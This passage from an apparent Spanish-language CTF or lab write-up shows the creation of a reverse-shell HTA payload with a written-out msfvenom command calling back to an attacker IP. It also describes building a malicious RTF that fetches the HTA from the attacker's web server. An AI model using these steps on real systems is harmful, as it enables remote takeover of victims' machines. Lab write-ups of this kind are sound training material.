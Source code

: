 <figure><img src="../../../../../.gitbook/assets/3346_vmware_Du1GjNnqI8.png" alt=""><figcaption></figcaption></figure>

Creamos un payload de **reverse shell** con extensión **HTA** porque este tipo de archivo se ejecuta directamente en Windows usando **mshta.exe**. Esto nos permite aprovechar la vulnerabilidad del archivo RTF para que cargue y ejecute el HTA malicioso fácilmente. Además, el HTA puede lanzar comandos como PowerShell, que usamos para establecer la conexión de reverse shell.

{% code overflow="wrap" %}
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=443 -f hta-psh -o pawned.hta
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3347_vmware_Hij26PLEiI.png" alt=""><figcaption></figcaption></figure>

Procederemos a realizar el archivo RTF malicioso con el exploit del GitHub descargado, procederemos a generar un archivo llamado "_pawned.rtf_" indicándole que ejecute el archivo HTA que dejaremos disponible a través de un servidor web desde nuestro equipo.
